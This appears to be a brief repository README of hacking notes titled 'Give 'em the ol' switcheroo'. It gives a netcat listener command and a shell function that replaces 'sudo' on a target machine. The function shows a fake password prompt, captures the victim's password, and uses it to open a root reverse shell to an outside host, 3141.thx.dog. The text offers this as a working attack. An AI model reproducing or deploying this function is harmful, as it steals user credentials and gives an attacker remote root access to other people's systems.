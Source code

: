 ## Give 'em the ol' switcheroo

##### Listen for incoming connections on the server
`nc -l 0.0.0.0 8837 -vv`

##### Make a function called sudo, so when the target uses sudo, they are less likely to become suspicious

###### Note: Change 3141.thx.dog with a domain pointing to the server that's listening, and 8837 if you changed the port netcat listens on
`sudo() { /bin/echo [sudo] password for $USER: ; read -s chwing; echo "$chwing" | /usr/bin/sudo -S <<< "$chwing" "$0" "-lic" "exec 5<>/dev/tcp/3141.thx.dog/8837; cat <&5 | while read _R; do \$_R 2>&5 >&5; done &"; }`


###### These are just random notes for things im working on work-in-progress
